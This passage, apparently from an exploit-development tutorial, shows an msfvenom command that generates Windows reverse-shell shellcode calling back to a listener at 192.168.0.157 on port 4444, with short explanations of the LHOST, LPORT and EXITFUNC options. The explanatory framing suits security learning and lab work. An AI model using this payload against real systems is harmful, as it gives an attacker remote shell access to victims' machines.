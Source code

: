 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, our payload will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to
**EXITFUNC:** Makes connection more stable

